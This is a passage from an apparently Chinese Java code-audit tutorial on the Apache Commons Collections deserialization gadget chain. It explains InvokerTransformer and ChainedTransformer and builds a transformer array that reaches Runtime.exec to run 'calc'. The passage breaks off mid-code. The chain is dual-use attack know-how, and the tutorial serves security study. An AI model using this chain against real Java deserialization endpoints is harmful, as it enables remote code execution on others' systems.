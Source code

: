 ```java
        //exec 方法在 Runtime 类中有多个重载形式，而这里通过传入 new Class[]{String.class} 表明我们要获取的是参数为单个 String 类型的那个 exec 重载方法（也就是执行一个字符串表示的命令的那个方法版本）如果成功找到对应的方法，就会返回一个代表该方法的 Method 类型的对象，后续可以通过这个对象来进行方法的反射调用。
    }
}

```

通过`InvokerTransformer`的反射机制来调用`java.lang.Runtime`来实现命令执行，但在真实的漏洞利用场景我们是没法在调用`transformer.transform`的时候直接传入`Runtime.getRuntime()`对象的，因此我们需要学习如何通过`ChainedTransformer`来创建攻击链。

## ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer`类封装了`Transformer`的链式调用，我们只需要传入一个`Transformer`数组，`ChainedTransformer`就会依次调用每一个`Transformer`的`transform`方法。

```java
public class ChainedTransformer implements Transformer, Serializable {

  /** The transformers to call in turn */
  private final Transformer[] iTransformers;

  // 省去多余的方法和变量

  public ChainedTransformer(Transformer[] transformers) {
      super();
      iTransformers = transformers;
  }

  public Object transform(Object object) {
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }

      return object;
  }

}
```

**使用ChainedTransformer实现调用本地命令执行方法：**

![image-20241203233142402](W:\note\java代码审计基础篇\基础篇04\image-20241203233142402.png)

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
public class ChainTransformerTest {
    public static void main(String[] args) {
        String cmd = "calc";
        Transformer[] transformers = new Transformer[]{
            	//创建Runtime.class初始类对象
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

```